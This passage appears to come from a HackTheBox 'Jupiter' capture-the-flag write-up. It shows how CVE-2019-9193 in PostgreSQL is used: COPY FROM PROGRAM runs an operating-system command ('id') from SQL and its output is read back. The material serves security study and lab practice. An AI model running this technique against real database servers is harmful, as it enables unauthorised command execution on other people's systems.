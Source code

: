 ![](/commons/HTB/Jupiter/1_sqlver.png)

We can execute PostgresSQL command. After check, nothing found.  
After research PostgresSQL ==> CVE-2019-9193 and [this blog](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)

```text
1) [Optional] Drop the table you want to use if it already exists

DROP TABLE IF EXISTS cmd_exec;

2) Create the table you want to hold the command output

CREATE TABLE cmd_exec(cmd_output text);

3) Run the system command via the COPY FROM PROGRAM function

COPY cmd_exec FROM PROGRAM ‘id’;

4) [Optional] View the results

SELECT * FROM cmd_exec;

5) [Optional] Clean up after yourself

DROP TABLE IF EXISTS cmd_exec;
```
